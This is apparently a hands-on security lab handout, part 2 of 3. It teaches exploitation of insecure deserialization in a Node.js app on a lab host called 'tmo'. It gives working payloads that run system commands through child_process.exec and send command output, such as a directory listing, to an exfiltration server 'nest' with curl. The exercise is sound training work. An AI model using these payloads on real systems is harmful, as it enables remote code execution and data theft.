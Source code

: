 # Lab instructions (2/3)

## Insecure deserialiation

What happens if you add the opening and closing parentheses immediately after
the function definition?

```bash
curl --data '{"id":"_$$ND_FUNC$$_function(){return(\"result\")}()"}' -H "Content-Type: application/json" http://tmo/request
```

Congratulations! You've found the insecure deserialization vulnerability. Now
you're able to execute functions on the `target` server. This is an important
step.

However, the challenge is also about exfiltrating data. That's what the second
part of the lab will be about.

## Automating attacks

11. When performing security tests, often you need to tweak and tinker with
    payloads. Instead of having to use the command line to execute `curl` every
    time with different payloads, it make sense to use some automation here.

    First, let's put the payload into a separate file, and send the contents of
    the file as data.

```bash
echo '{"id":"_$$ND_FUNC$$_function(){return(\"result\")}()"}' > payload.json
```

Now modify the `curl` command so that it reads the contents of the file
containing the payload, and uses it as POST data. This can be done by using the
`@` character before the filename, as `--data` parameter.

```bash
curl --data "@payload.json"  -H "Content-Type: application/json" http://tmo/request
```

11. Second, let's automate the `curl` command so that it automatically executes,
    as soon as the file `payload.json` changes.

The tool `inotifywait` can check whether the contents of a file change. By using
an infinite loop, you can execute the `curl` command, each time that
`payload.json` changes.

```bash
while true; do inotifywait payload.json && \
curl --data "@payload.json"  -H "Content-Type: application/json" http://tmo/request; \
done
```

You can always exit the loop using Control-C. However, for the rest of the lab
session, let this infinite loop be active.

Open up another terminal window, and see what happens when you `touch` the file
`payload.json`. This should fire off an event, and execute the `curl` command
for you.

**Remark** Long lines can be separated using the backslash. This makes it easier
reading the command.

## Executing commands

12. You now have Remote Code Execution powers by exploiting the insecure
    deserialization exploit. Furthermore, you have automated sending payloads to
    the Globomantics server. Let's now try to execute **system commands** on the
    `tmo` server.

You can use the Node.js function `exec` from the library `child_process` to
execute processes. In the new terminal window, open up the `node` REPL, and try
out the following code to execute an `ls` command:

```js
proc = require("child_process");
proc.exec("ls /root");
```

This will execute the `ls /root` command - even though the results aren't
directly shown. Try for example to create a file, using `touch this_works`:

```js
proc = require("child_process");
proc.exec("touch this_works");
```

Exit the REPL using Control-D, and verify that the file `this_works` is created
using the `ls` command:

```bash
ls
```

So, you can execute system commands using the `exec` function from the
`child_process` library.

## Exfiltrating data

13. Often, during attacks, it is difficult to see the output of commands. That's
    when exfiltration servers come in handy: The output of commands can be sent
    to an external exfiltration server.

While the infinite loop is running, let's open up a text editor, and modify the
`payload.json`. A text editor that can be used is `mousepad`.

```bash
mousepad payload.json
```

**Remark** Of course any text editor will do: Mousepad is just a simple editor,
where you can save files using Control-S. Control-Q will quit the program.

Let's modify the payload in such a way, that the `tmo` server accesses the
`nest` server. This way, we can exfiltrate data.

Make sure that the initial terminal window, which shows the logs of the `nest`
server is visible. This way, you can see whether the server receives requests
from `tmo`.

Write a payload that performs the `exec` function and executes a GET request
using `curl`, to our exfiltration server `http://nest/`:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"curl http://nest/\")}()"}
```

Save the file using Control-S. Don't close the editor yet, as you will need to
modify the payload later on.

If everything went well, the `inotifywait` tool should have detected that
`payload.json` was modified, and should have sent the contents to the `tmo`
server. That means, that you can perform exfiltration, using the `curl` tool,
and by sending data to `http://nest`.

If the payload did not contain any syntax errors, then the `tmo` server should
performed a GET request to the `nest` server, and a request should be visible in
the `nest` log output.

Should you not see anything, then double-check whether the `inotifywait`
infinite loop is still running, and whether the payload doesn't contain any
syntax errors.

## Finalizing the mission

14. As an attacker, usually one of the first steps you perform when having
    access to a server, is performing reconnaissance. Let's create a directory
    listing of the root on `tmo`.

    In the editor, modify the payload so that it creates a directory listing,
    and sends the contents back to the exfiltration server:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"ls / > /tmp/output; curl --data '@/tmp/output' http://nest/\")}()"}
```

That isn't too easy to read, is it? Apparently the `--data` flag treats the data
as text, and will not preserve carriage returns or newlines.

Fortunately, we can use the flag `--data-binary` instead of `--data`, which
treats the data as-is. That way, the carriage returns and newlines are
preserved:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"ls / > /tmp/output; curl --data-binary '@/tmp/output' http://nest/\")}()"}
```

This should output the directory listing. Using this technique, you now can look
around on the server, and see whether there are any interesting files that we as
Dark Kittens want to steal from Globomantics.

Try to obtain the contents of the file `/root/secret.txt`.

See for the solution of the lab [Solution 2](Solution_2.md)
